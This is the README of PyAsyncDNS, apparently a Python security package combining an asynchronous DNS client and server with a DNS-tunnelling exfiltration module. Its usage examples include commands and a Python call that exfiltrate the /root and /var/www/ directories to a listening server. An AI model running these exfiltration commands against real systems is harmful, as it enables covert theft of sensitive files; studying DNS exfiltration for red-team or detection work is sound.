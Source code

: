 ![PyAsyncDNS Logo](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/PyAsyncDNS_small.png "PyAsyncDNS logo")

# PyAsyncDNS

## Description

This package implements a basic asynchronous DNS client and server
with a feature to exfiltrate data through DNS.

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

### Pip

```bash
python3 -m pip install PyAsyncDNS
```

### Git

```bash
git clone "https://github.com/mauricelambert/PyAsyncDNS.git"
cd "PyAsyncDNS"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/PyAsyncDNS/archive/refs/heads/main.zip
unzip main.zip
cd PyAsyncDNS-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/PyAsyncDNS/archive/refs/heads/main.zip
unzip main.zip
cd PyAsyncDNS-main
python3 -m pip install .
```

## Usages

### Command line

```bash
PyAsyncDNS              # Using CLI package executable
python3 -m PyAsyncDNS   # Using python module
python3 PyAsyncDNS.pyz  # Using python executable
PyAsyncDNS.exe          # Using python Windows executable

python3 -m PyAsyncDNS.client example.com kernel.org
PyAsyncDNS client example.com kernel.org

python3 -m PyAsyncDNS.server 127.0.0.1 53
PyAsyncDNS server 127.0.0.1 53

python3 -m PyAsyncDNS.exfiltrator 127.0.0.1 53 /root /var/www/
PyAsyncDNS exfiltration 127.0.0.1 53 /root /var/www/

python3 -m PyAsyncDNS.exfiltrator_server 127.0.0.1 53
PyAsyncDNS exfiltration-server 127.0.0.1 53 /root /var/www/
```

### Python script

```python
from PyAsyncDNS import *
from asyncio import run

addresses = run(resolve_all(['example.com', 'kernel.org'])) # resolve address
run(start_async_dns_server('127.0.0.1', 53))                # start server

server.get_response = lambda domain_name, transaction_id: "127.0.0.1"
run(start_async_dns_server('127.0.0.1', 53))                # start server with custom behaviour to define response

run(exfiltrate_directories(['/root', '/var/www/'], "127.0.0.1", 53)) # exfiltrate /root and /var/www/ directories through DNS to 127.0.0.1:53 using UDP
```

## Links

 - [Pypi](https://pypi.org/project/PyAsyncDNS)
 - [Github](https://github.com/mauricelambert/PyAsyncDNS)
 - [Documentation client](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/client.html)
 - [Documentation server](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/server.html)
 - [Documentation exfiltrator](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/exfiltrator.html)
 - [Documentation exfiltrator server](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/exfiltrator_server.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/PyAsyncDNS.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/PyAsyncDNS/PyAsyncDNS.exe)

## License

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
